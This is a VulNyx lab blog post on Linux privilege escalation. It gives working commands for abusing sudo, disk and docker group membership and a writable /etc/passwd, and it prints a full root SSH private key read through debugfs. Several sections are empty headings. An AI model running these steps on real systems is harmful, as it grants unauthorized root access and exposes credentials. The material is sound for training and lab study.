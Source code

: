 ```yaml
---
title: 🐧 Privilege Escalation (Linux)
date: 0003-01-01
layout: post
---
```


### Groups

#### sudo

When a user is part of the `sudo` **group**, he can run any command as the `root` user.

**Check Group**

```ruby
low@vulnyx:~$ id
uid=1000(low) gid=1000(low) groups=1000(low),27(sudo)
```

**Abuse Group**

```ruby
low@vulnyx:~$ sudo su
root@vulnyx:~# id
uid=0(root) gid=0(root) groups=0(root)
```

#### disk

When a user is part of the `adm` **group**, he can **read log files** on the system.


When a user is part of a `disk` **group**, he or she is granted direct access to the system **disks** and **partitions**.

**Check Group**

```ruby
low@vulnyx:~$ id
uid=1000(low) gid=1000(low) groups=1000(low),6(disk)
```

**Abuse Group**

```ruby
low@vulnyx:~$ df -h
Filesystem      Size  Used Avail Use% Mounted on
udev            480M     0  480M   0% /dev
tmpfs            99M  3.2M   96M   4% /run
/dev/sda1        11G  2.2G  8.1G  21% /
tmpfs           494M     0  494M   0% /dev/shm
tmpfs           5.0M     0  5.0M   0% /run/lock
tmpfs           494M     0  494M   0% /sys/fs/cgroup
tmpfs            99M     0   99M   0% /run/user/1000
```
```ruby
low@vulnyx:~$ /usr/sbin/debugfs /dev/sda1
debugfs 1.44.5 (15-Dec-2018)
debugfs:  ls /root
debugfs:  ls /root/.ssh/
debugfs:  cat /root/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEAstkGmc1W+epM0w13VQrLO/wMNWwxFltotpa9elYJVXSlBc+PgF6I
vnpxKBu/BFHAogrQt/i7MI3+64POT6X8nVWokKi9raRlaSFl2k8373C+lLyzt/JewfThUl
VQINQ33vGIemNAbvJkqmMveAthMFEnAnNCnB6jct/Mhr74LjWgmX47tjrTxh3rdUF3SyVV
J6HJMX015n+1md/zGX6CcjqaZGdCi5WY6xJHFkpp9yyszID8fmouUnQOq66C52Dbv5QNxV
H8wSpH0HfTP3lqqMiXga8kUQGrHkfzmDT66wpTT6xvEHEa6zApu1PrDiW5K3EGhpTR/ylm
GhcjB2iDrwAAA8CEFaHVhBWh1QAAAAdzc2gtcnNhAAABAQCy2QaZzVb56kzTDXdVCss7/A
w1bDEWW2i2lr16VglVdKUFz4+AXoi+enEoG78EUcCiCtC3+Lswjf7rg85PpfydVaiQqL2t
pGVpIWXaTzfvcL6UvLO38l7B9OFSVVAg1Dfe8Yh6Y0Bu8mSqYy94C2EwUScCc0KcHqNy38
yGvvguNaCZfju2OtPGHet1QXdLJVUnockxfTXmf7WZ3/MZfoJyOppkZ0KLlZjrEkcWSmn3
LKzMgPx+ai5SdA6rroLnYNu/lA3FUfzBKkfQd9M/eWqoyJeBryRRAaseR/OYNPrrClNPrG
8QcRrrMCm7U+sOJbkrcQaGlNH/KWYaFyMHaIOvAAAAAwEAAQAAAQBFdRunJ6Qbsu7bGGO7
11FOnnhvVvFJaX6lSq2TkU5WrdJZC18Dz7LzpsHDfeMVXlqdk+2zRRoNpVfXR30cWa5dvC
KW67GeejYYOixAOHvUtciOIyr4yVwbn2rSeud/mGuKXetO/LTNYb3Onm6VBHZeOWYZAYJg
91UrC9d2jTv9VZer6rtGJJKVdO8XrVgrciQU2GQgk0bBhcxXV4XOC7wYsoIdEuvkQG53Wu
PZmbU0uoIE6MSVtm3dct7uEt190KAkUNxKOflDmWUgjcyKODeQj/pwUgRaXzNTRaa+tuBU
9I0YwCS+LKt+KvyxO5DrbBDs5egoR3Pdz+Btcivn2i2hAAAAgCYIx3jhzhe5gwS5MnB6yW
LlszD7QWvNm+hhoO8NqIhCEOPRMwMN7fNJ3ACfkh4Tin1YObuUba8Ekn3cJSCt7fZ9Rh4k
tNsRoTZL6Az78gyAq2+OpZYQfLhxSDeypBRcih2ysvuXXZRVk1CEFe1XqNSn4wE82knfk/
qAGo5gPpwiAAAAgQDnpzswlg0aC/RfTdrGh9HuHc8fJQUgBbt3ofKz+ulOKSnnmlfDasK9
ATzM2Ee7HOmV0xXaAaXDsRXkgjoSQow9QWhDiLpR5eRbjjXEY3xcTpqQA1yNNqLkJmA1yP
QnRSJDbLQspSdlC6YDzHa0FcwkK14b0IN2AM7+APXsAQ2MywAAAIEAxaUIB8cQoUkdEeGD
QdVyjBpQQrjARPt5tmnTm1tmJpobkrpmTw7/VDYFUnJ/k7YYiUfsqyw7RJJQPYtnNTanBB
IYohf/jZd0WBAEsTzmtYLHcjo+ln7gMDtyKVj+SqhkXDHaeOkzpW4Ev5RB+clZLRwrAWuu
gaN4ZcqmaVXfzC0AAAALcm9vdEBzYXRvcmk=
-----END OPENSSH PRIVATE KEY-----
```

#### adm

#### docker

When a user is part of the `docker` **group**, they have the ability to **manage containers**.

**Check Group**

```
low@vulnyx:~$ id
uid=1000(low) gid=1000(low) groups=1000(low),109(docker)
```

** Abuse Group**

```ruby
low@vulnyx:~$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# chmod 4755 /bin/bash
# exit
low@vulnyx:~$ /bin/bash -pi
```

#### lxd

#### fail2ban

#### video

---

### /etc/passwd (Writable)

If a low-privileged user has permissions to write to the `/etc/passwd` file, an attacker can remove the `:x:` (on the `root` user line) and add a **hash**.  
This will change the file where a user's authentication is performed, from being done through the `/etc/shadow` file to being done through the `/etc/passwd` file.

**Check Permissions**

```ruby
low@vulnyx:~$ ls -l /etc/passwd
-rw----rw- 1 root root 1395 abr 21 20:16 /etc/passwd
```

**Create Hash**

```ruby
root@kali:~# openssl passwd -1 "P@ssword123"
$1$TSMXnd0L$DwQWYa.zuPqtZUjyRLWxy0
```

**Add Hash**

```ruby
# before
low@vulnyx:~$ cat /etc/passwd |grep root
root:x:0:0:root:/root:/bin/bash

# after
low@vulnyx:~$ cat /etc/passwd |grep root
root:$1$TSMXnd0L$DwQWYa.zuPqtZUjyRLWxy0:0:0:root:/root:/bin/bash
```

**Authenticate**

```ruby
low@vulnyx:~$ su -
Password:

root@vulnyx:~# id
uid=0(root) gid=0(root) grupos=0(root)
```

---

#### Disclaimer

> ##### WARNING
> All techniques presented in this blog are for educational and ethical purposes.  
> The [VulNyx](https://vulnyx.com) team is not responsible for any misuse or damage caused to third party systems or infrastructure.
{: .block-warning }

<br><br>
<div style="display: flex; justify-content: center; align-items: center; width: 100%; margin-top: 20px;">
  <img src="/assets/gitbook/images/favicon.png" style="width: 30px; height: auto; margin-right: 6px;">
  <span>© VulNyx 2023-2025</span>
</div>
